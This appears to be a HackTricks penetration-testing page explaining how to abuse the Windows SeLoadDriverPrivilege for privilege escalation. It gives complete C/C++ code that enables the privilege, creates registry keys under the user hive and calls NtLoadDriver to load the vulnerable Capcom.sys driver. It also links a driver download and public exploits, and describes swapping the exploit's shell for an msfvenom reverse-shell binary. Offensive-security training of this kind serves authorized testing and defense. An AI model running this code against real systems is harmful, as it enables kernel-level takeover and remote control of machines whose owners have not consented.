

# Abuse SeLoadDriverPrivilege

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## SeLoadDriverPrivilege <a href="#seloaddriverprivilege" id="seloaddriverprivilege"></a>

A very dangerous privilege to assign to any user - it allows the user to load kernel drivers and execute code with kernel privilges aka `NT\System`. See how `offense\spotless` user has this privilege:


`Whoami /priv` shows the privilege is disabled by default:



However, the below code allows enabling that privilege fairly easily:


```c
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>

int main()
{
	TOKEN_PRIVILEGES tp;
	LUID luid;
	bool bEnablePrivilege(true);
	HANDLE hToken(NULL);
	OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

	if (!LookupPrivilegeValue(
		NULL,            // lookup privilege on local system
		L"SeLoadDriverPrivilege",   // privilege to lookup 
		&luid))        // receives LUID of privilege
	{
		printf("LookupPrivilegeValue error: %un", GetLastError());
		return FALSE;
	}
	tp.PrivilegeCount = 1;
	tp.Privileges[0].Luid = luid;
	
	if (bEnablePrivilege) {
		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	}
	
	// Enable the privilege or disable all privileges.
	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&tp,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
	{
		printf("AdjustTokenPrivileges error: %x", GetLastError());
		return FALSE;
	}

	system("cmd");
    return 0;
}
```


We compile the above, execute and the privilege `SeLoadDriverPrivilege` is now enabled:


### Capcom.sys Driver Exploit <a href="#capcom-sys-driver-exploit" id="capcom-sys-driver-exploit"></a>

To further prove the `SeLoadDriverPrivilege` is dangerous, let's **exploit it to elevate privileges**.

You can load a new driver using **NTLoadDriver:**

```cpp
NTSTATUS NTLoadDriver(
  _In_ PUNICODE_STRING DriverServiceName
);
```

By default the driver service name should be under `\Registry\Machine\System\CurrentControlSet\Services\`

But, according with to the **documentation** you **could** also **use** paths under **HKEY\_CURRENT\_USER**, so you could **modify** a **registry** there to **load arbitrary drivers** on the system.\
The relevant parameters that must be defined in the new registry are:

* **ImagePath:** REG\_EXPAND\_SZ type value which specifies the driver path. In this context, the path should be a directory with modification permissions by the non-privileged user.
* **Type**: Value of type REG\_WORD in which the type of the service is indicated. For our purpose, the value should be defined as SERVICE\_KERNEL\_DRIVER (0x00000001).

Therefore you could create a new registry in **`\Registry\User\<User-SID>\System\CurrentControlSet\MyService`** indicating in **ImagePath** the path to the driver and in **Type** the with value 1 and use those values on the exploit (you can obtain the User SID using: `Get-ADUser -Identity 'USERNAME' | select SID` or `(New-Object System.Security.Principal.NTAccount("USERNAME")).Translate([System.Security.Principal.SecurityIdentifier]).value`

```bash
PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
PCWSTR pPathSourceReg = L"\\Registry\\User\\<User-SID>\\System\\CurrentControlSet\\MyService";
```

The first one declares a string variable indicating where the vulnerable **Capcom.sys** driver is located on the victim system and the second one is a string variable indicating a service name that will be used (could be any service).\
Note, that the **driver must be signed by Windows** so you cannot load arbitrary drivers. But, **Capcom.sys** **can be abused to execute arbitrary code and is signed by Windows**, so the goal is to load this driver and exploit it.

Load the driver:

```c
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <ntsecapi.h>
#include <stdlib.h>
#include <locale.h>
#include <iostream>
#include "stdafx.h"

NTSTATUS(NTAPI *NtLoadDriver)(IN PUNICODE_STRING DriverServiceName);
VOID(NTAPI *RtlInitUnicodeString)(PUNICODE_STRING DestinationString, PCWSTR SourceString);
NTSTATUS(NTAPI *NtUnloadDriver)(IN PUNICODE_STRING DriverServiceName);

int main()
{
	TOKEN_PRIVILEGES tp;
	LUID luid;
	bool bEnablePrivilege(true);
	HANDLE hToken(NULL);
	OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

	if (!LookupPrivilegeValue(
		NULL,            // lookup privilege on local system
		L"SeLoadDriverPrivilege",   // privilege to lookup 
		&luid))        // receives LUID of privilege
	{
		printf("LookupPrivilegeValue error: %un", GetLastError());
		return FALSE;
	}
	tp.PrivilegeCount = 1;
	tp.Privileges[0].Luid = luid;
	
	if (bEnablePrivilege) {
		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	}
	
	// Enable the privilege or disable all privileges.
	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&tp,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
	{
		printf("AdjustTokenPrivileges error: %x", GetLastError());
		return FALSE;
	}

	//system("cmd");
	// below code for loading drivers is taken from https://github.com/killswitch-GUI/HotLoad-Driver/blob/master/NtLoadDriver/RDI/dll/NtLoadDriver.h
	std::cout << "[+] Set Registry Keys" << std::endl;
	NTSTATUS st1;
	UNICODE_STRING pPath;
	UNICODE_STRING pPathReg;
	PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
  PCWSTR pPathSourceReg = L"\\Registry\\User\\<User-SID>\\System\\CurrentControlSet\\MyService";
	const char NTDLL[] = { 0x6e, 0x74, 0x64, 0x6c, 0x6c, 0x2e, 0x64, 0x6c, 0x6c, 0x00 };
	HMODULE hObsolete = GetModuleHandleA(NTDLL);
	*(FARPROC *)&RtlInitUnicodeString = GetProcAddress(hObsolete, "RtlInitUnicodeString");
	*(FARPROC *)&NtLoadDriver = GetProcAddress(hObsolete, "NtLoadDriver");
	*(FARPROC *)&NtUnloadDriver = GetProcAddress(hObsolete, "NtUnloadDriver");

	RtlInitUnicodeString(&pPath, pPathSource);
	RtlInitUnicodeString(&pPathReg, pPathSourceReg);
	st1 = NtLoadDriver(&pPathReg);
	std::cout << "[+] value of st1: " << st1 << "\n";
	if (st1 == ERROR_SUCCESS) {
		std::cout << "[+] Driver Loaded as Kernel..\n";
		std::cout << "[+] Press [ENTER] to unload driver\n";
	}

	getchar();
	st1 = NtUnloadDriver(&pPathReg);
	if (st1 == ERROR_SUCCESS) {
		std::cout << "[+] Driver unloaded from Kernel..\n";
		std::cout << "[+] Press [ENTER] to exit\n";
		getchar();
	}

    return 0;
}
```

Once the above code is compiled and executed, we can see that our malicious `Capcom.sys` driver gets loaded onto the victim system:


Download: [Capcom.sys - 10KB](https://firebasestorage.googleapis.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LTyWsUdKa48PyMRyZ4I%2F-LTyZ9IkoofuWRxlNpUG%2FCapcom.sys?alt=media\&token=e4417fb3-f2fd-42ef-9000-d410bc6ceb54)

**No it's time to abuse the loaded driver to execute arbitrary code.**

You can download exploits from [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom) and [https://github.com/zerosum0x0/puppetstrings](https://github.com/zerosum0x0/puppetstrings) and execute it on the system to elevate our privileges to `NT Authority\System`:


### No Gui

If we **do not have GUI access** to the target, we will have to modify the **`ExploitCapcom.cpp`** code before compiling. Here we can edit line 292 and replace `C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

Code: c

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

The `CommandLine` string in this example would be changed to:

Code: c

```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

We would set up a listener based on the `msfvenom` payload we generated and hopefully receive a reverse shell connection back when executing `ExploitCapcom.exe`. If a reverse shell connection is blocked for some reason, we can try a bind shell or exec/add user payload.

### Auto

You can use [https://github.com/TarlogicSecurity/EoPLoadDriver/](https://github.com/TarlogicSecurity/EoPLoadDriver/) to **automatically enable** the **privilege**, **create** the **registry key** under HKEY\_CURRENT\_USER and **execute NTLoadDriver** indicating the registry key that you want to create and the path to the driver:

.png>)

Then, you will need to download a **Capcom.sys** exploit and use it to escalate privileges.

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
